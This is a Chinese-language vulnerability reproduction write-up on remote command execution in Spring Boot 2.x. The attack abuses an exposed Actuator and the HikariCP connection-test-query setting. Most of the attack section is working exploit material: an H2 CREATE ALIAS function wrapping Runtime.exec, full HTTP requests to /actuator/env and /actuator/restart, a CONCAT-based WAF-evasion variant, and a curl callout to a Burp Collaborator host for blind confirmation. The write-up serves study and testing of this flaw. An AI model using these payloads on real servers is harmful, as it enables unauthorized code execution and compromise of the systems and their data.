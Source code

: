 Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞
=========================================================

一、漏洞简介
------------

Spring Boot
2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

漏洞环境

> https://github.com/ianxtianxt/springboot\_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring
Boot集成，仅仅需要如下的一个dependency。

    <dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <scope>runtime</scope>
    </dependency>

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE
ALIAS创建一个java函数然后调用它，示例如下:

    CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
    CALL GET_SYSTEM_PROPERTY('java.class.path');

仿照这个，创建命令执行的java函数可以如下:

    String shellexec(String cmd) throws java.io.IOException { 
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
        if (s.hasNext()) {
            return s.next();
        } throw new IllegalArgumentException(); 
    }

那么RCE所需的SQL语句即:

    CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
    CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

    POST /actuator/env HTTP/1.1

    content-type: application/json

    {"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

    POST /actuator/restart HTTP/1.1

    content-type: application/json

    {}

命令执行的结果:

![](resource/SpringBootActuatorhikari配置不当导致的远程命令执行漏洞/media/rId25.png)

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

    CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
    CALL EXEC('curl  http://x.burpcollaborator.net');

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind
RCE。

参考链接
--------

> https://xz.aliyun.com/t/7480\#toc-3
